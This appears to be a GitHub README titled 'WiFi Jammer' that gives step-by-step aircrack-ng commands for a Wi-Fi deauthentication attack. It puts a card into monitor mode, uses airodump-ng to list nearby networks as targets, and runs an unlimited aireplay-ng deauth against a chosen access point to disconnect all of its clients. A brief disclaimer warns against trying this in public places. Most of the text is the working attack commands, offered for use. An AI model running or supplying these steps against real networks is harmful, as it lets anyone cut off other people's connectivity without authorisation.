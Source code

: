 
<h1 align="center">Welcome to Repositorie of WiFi Jammer 👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>
<img src="https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg" >


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)
<p align =center >
  <img src="https://thumbs.gfycat.com/EvergreenPolishedBunny-max-1mb.gif" height='246' width='250' />
</p>

<h1 align="center">Dont try this at Home, School,Or any other public place!!!</h1>
<br>

<h1 align="center"> Introduction to WiFi Jammer </h1>
<p>
 
## Check
```sh
iwconfig
```
Check weather the mode is on moniter mode or managed mode.

  ## Clear all stuff

```sh
airmon-ng check kill
```
check and kill off processes that might interfere with the aircrack-ng suite.

  ## Moniter mode

```sh
airmon-ng start wlan0
```
Airmon-ng is used to read all the packets of data even if they are not sent to us. It controls the traffic received only on the wired/wireless networks. Wi-Fi adapters are mainly used for connecting your device to the internet. Most laptops, tablets, and mobile phones have an inbuild Wi-Fi card.

  ## Search the target

```sh
airodump-ng wlan0mon
```
After doing this you will able to see a interface that will show you wifi network around you which are available and with this you will able to see many other columns such as CH (channel), bssid and many more.

  ## Jamming The WiFi

```sh
aireplay-ng --deauth 0 -a <target_mac> wlan0mon
```
After doing this all the device which are connected to this WiFi will be disconnect cause this process will send deauthentication packges and due to this the WiFi we be get stuck and it will not able to connect any other device and this process will cause WiFi Jamming.

  
